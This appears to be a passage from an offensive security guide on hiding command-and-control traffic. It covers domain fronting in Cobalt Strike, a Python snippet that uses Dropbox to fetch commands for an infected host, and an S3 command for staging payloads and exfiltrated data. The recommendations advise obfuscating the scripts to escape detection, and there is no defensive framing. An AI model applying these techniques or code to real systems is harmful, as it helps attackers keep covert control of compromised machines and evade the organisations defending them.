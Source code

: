     Description: A technique that uses a front domain to disguise the actual destination of HTTPS requests, making it look like traffic is going to a legitimate service.
    Tools: Cobalt Strike, PowerShell Empire.
    Example:
        Setting up domain fronting in Cobalt Strike:

        shell

            # Set a front domain (a legitimate site)
            Cobalt Strike > C2 > Listeners > HTTPS Listener > Advanced > Host Header

        Recommendations:
            Use highly trusted domains (e.g., cloudfront.net).
            Monitor the service as some cloud providers block domain fronting.

B. Using Cloud Services for C2 Channels

Cloud services offer a high degree of flexibility and obfuscation due to their widespread use and trusted status within organizations. Attackers can use various cloud-based storage and computing services to hide C2 traffic.
Techniques and Tools:

    Dropbox for C2 Communication:
        Description: Using Dropbox to store and retrieve C2 commands. The infected host periodically checks a Dropbox folder for new commands.
        Tools: Dropbox-Uploader, custom Python scripts.
        Example:

        python

    # Example Python script to interact with Dropbox
    import dropbox

    dbx = dropbox.Dropbox('<ACCESS_TOKEN>')

    # Download command file from Dropbox
    _, res = dbx.files_download('/path/to/command.txt')
    command = res.content.decode('utf-8')

    Recommendations:
        Use API keys securely.
        Obfuscate the Dropbox interaction scripts to prevent easy detection.

Amazon S3 Buckets:

    Description: S3 buckets can be used to host payloads, store exfiltrated data, or relay commands. The compromised host uses the AWS CLI or SDKs to interact with the bucket.
    Tools: AWS CLI, custom scripts using boto3 (AWS SDK for Python).
    Example:

    bash

    # Upload a payload to S3
    aws s3 cp payload.sh s3://bucket-name/path/to/payload.sh
